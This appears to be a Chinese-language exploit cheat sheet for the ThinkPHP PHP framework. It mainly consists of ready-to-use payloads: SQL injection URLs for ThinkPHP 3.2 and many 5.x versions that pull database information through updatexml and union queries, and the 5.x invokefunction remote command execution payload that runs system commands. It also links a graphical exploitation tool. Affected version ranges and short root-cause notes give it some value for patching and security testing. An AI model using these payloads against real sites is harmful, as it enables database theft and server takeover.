 ## 应用简介

ThinkPHP是国内一款常用的PHP后台开发框架。

## GUI图形化利用工具

[@bewhale](https://github.com/bewhale/thinkphp_gui_tools)

![](tpgui.png)

## [ThinkPHP 3.2]-SQL注入

**漏洞利用**

```sql
--table
http://127.0.0.1/index.php?m=Home&c=Index&a=test&id[table]=user where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

--alias
http://127.0.0.1/index.php?m=Home&c=Index&a=test&id[alias]=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

--where:
http://127.0.0.1/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--
```

## [ThinkPHP 5.x]-命令执行漏洞

**漏洞概述**

```http
#影响范围
5.0 < 5.0.24
5.1 < 5.1.31
```

由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。

**漏洞利用**

phpinfo：

```http
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

命令执行：

```http
?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

**漏洞分析**

## 5.0 注入

```bash
# thinphp 5.0.13<=ThinkPHP<=5.0.15 、 5.1.0<=ThinkPHP<=5.1.5 
#insert注入
还是exp同类的问题,如果有inc或者dec,val[2]强转了,vak[1]没处理

index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1 

# 5.1.6<=ThinkPHP<=5.1.7 (非最新的 5.1.8 版本也可利用)。
#insert注入
还是上面同一个地方,,加了default 处理,根进去,还是直接拼接了sql语句
index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0 

# ThinkPHP5全版本 。
Mysql 类的 parseWhereItem 方法中,
需要exp,本来就是官方执行语句的参数,然后没有过滤)导致可以逃出原本执行,进入联合查询啥的
index?username=) union select updatexml(1,concat(0x7,user(),0x7e),1)#

#  ThinkPHP=5.0.10
Request 类的 filterValue 方法漏过滤 NOT LIKE 关键字
导致where(['username' => $username])
username 传入数组可以注入,
NOT LIKE 第三个参数可以指定多个like查询的关系,如 and 
插入sql语句,导致注入..

 http://localhost:8000/index/index/index?username[0]=not like&username[1][0]=%%&username[1][1]=233&username[2]=) union select 1,user()--+
 
# 5.1.16<=ThinkPHP5<=5.1.22  order 注入
parsrorder 没过滤,数组拼接注入`逃逸
index/index/index?orderby[id`|updatexml(1,concat(0x7,user(),0x7e),1)%23]=1 
 
#  5.0.0<=ThinkPHP<=5.0.21 、 5.1.3<=ThinkPHP5<=5.1.25 聚合函数注入
#5.0.0~5.0.21 、 5.1.3～5.1.10
id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

#5.1.11～5.1.25
id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23
 
max 聚合函数,传入表名的位置,``包裹,所以存在注入,修复方法,进行匹配,阻止数字,字母,*以为的字符
```

## 5.0.24存在反序列化

这是个鸡肋漏洞，很难利用


